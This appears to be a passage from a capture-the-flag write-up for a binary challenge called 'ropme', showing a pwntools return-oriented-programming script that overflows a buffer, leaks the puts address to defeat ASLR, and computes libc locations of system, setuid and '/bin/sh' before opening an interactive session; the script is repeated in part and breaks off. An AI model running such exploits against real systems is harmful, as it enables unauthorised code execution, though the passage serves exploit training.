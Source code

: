   from pwn import *
  p = gdb.debug('./ropme', 'b main')
  context(os='linux', arch='amd64')

  junk = ('A' * 72).encode()
  pop_rdi = p64(0x4006d3)     # gdb ropper
  got_puts = p64(0x601018)    # objdump
  plt_puts = p64(0x4004e0)    # objdump
  plt_main = p64(0x400626)    # objdump
  libc_puts = p64(0x766b0)    # readelf
  libc_system = p64(0x48f20)  # readelf
  libc_setuid = p64(0xcc220)  # readelf
  libc_sh = p64(0x18a156)     # strings

  gadget_leak = pop_rdi + got_puts + plt_puts + plt_main

  p.sendline(junk + gadget_leak)
  p.recvuntil("ROP me outside, how 'about dah?")
  leaked_put = p.recv()[:8].strip().ljust(8, b'\x00')
  log.info(f'Leaked Address: {leaked_put.hex()}')

  offset = u64(leaked_put) - u64(libc_puts)
  log.info(f'Offset: {offset}')

  system_loc = (u64(libc_system) + offset).to_bytes(8, byteorder='little')
  setuid_loc = (u64(libc_setuid) + offset).to_bytes(8, byteorder='little')
  sh_loc = (u64(libc_sh) + offset).to_bytes(8, byteorder='little')

  log.info(f'System Location: {system_loc.hex()}')
  log.info(f'SetUID Location: {setuid_loc.hex()}')
  log.info(f'/bin/sh Location: {sh_loc.hex()}')

  p.interactive()


7. Create your gadged chain (exploit).

root@nidus:/git/challenges/ropme# cat exploit.py
  #!/usr/bin/python3

  from pwn import *
  p = gdb.debug('./ropme', 'b main')
  context(os='linux', arch='amd64')

  junk = ('A' * 72).encode()
  pop_rdi = p64(0x4006d3)     # gdb ropper
  got_puts = p64(0x601018)    # objdump
  plt_puts = p64(0x4004e0)    # objdump
  plt_main = p64(0x400626)    # objdump
  libc_puts = p64(0x766b0)    # readelf
  libc_system = p64(0x48f20)  # readelf
  libc_setuid = p64(0xcc220)  # readelf
  libc_sh = p64(0x18a156)     # strings

  # Gadget to leak
  gadget_leak = pop_rdi + got_puts + plt_puts + plt_main
